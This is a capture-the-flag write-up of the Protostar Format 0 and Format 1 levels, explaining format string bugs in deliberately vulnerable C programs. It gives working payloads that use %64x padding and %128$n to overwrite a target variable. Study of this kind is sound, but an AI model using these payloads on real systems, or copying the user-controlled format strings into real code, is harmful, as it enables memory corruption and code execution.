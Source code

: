 # Protostar Format levels

## Format 0
For this level we have to exploit the following C code.

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string)
{
  volatile int target;
  char buffer[64];

  target = 0;

  sprintf(buffer, string);
  
  if(target == 0xdeadbeef) {
      printf("you have hit the target correctly :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```

These types of challenges require a deep understanding of printf. I recommend reading the `man printf` page, especially the format modifiers **%x, %n and adding to them, such as %100x and %4$x**

This challenge is similar to a buffer overflow attack, where we are required to override a value with a certain value. Clearly we can just enter 64 characters followed by 0xdeadbeef (split for *little endianness* ofcourse). However the challenge wants this done in less than 15 characters. 

The way we can do this is by using the format modifier `%64x`. This would adding 64 bytes of padding to our string, followed by 0xdeadbeef, this would result in 64 characters being printed. Like we need.

So let's generate our output with python
```python
print '%64x' + '\xef\xbe\xad\xde'
```

## Format 1

This challenges introduces the `%n` modifier, that allows us to write to any value in memory. Keep this idea in main, as it will allow us later to execture our own code.

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln(char *string)
{
  printf(string);
  
  if(target) {
      printf("you have modified the target :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```

Firstly we can find the address of target using *objdump*
```
objdump -t program | grep target
```
This prints the address of target in memory -> **0x08049638**. Now that we have an address to overwrite, how do we do that?

Well first we need to find what offset our input string is on the stack for printf.
This can be found by AAAA %p %p.... %p a bunch of times. I find it is the 128th item on the stack

So let's generate a script. We need to put the address on the stack so:
```attack = "\x38\x96\x04\x08```

Now we need to set the variable, we can use %n for this. But we need the 128th item on the stack so we can use the $ modifier like
```attack += "%128$n"```
This will now overwrite the variable target, with with however many characters have already been written. (4 in this case).
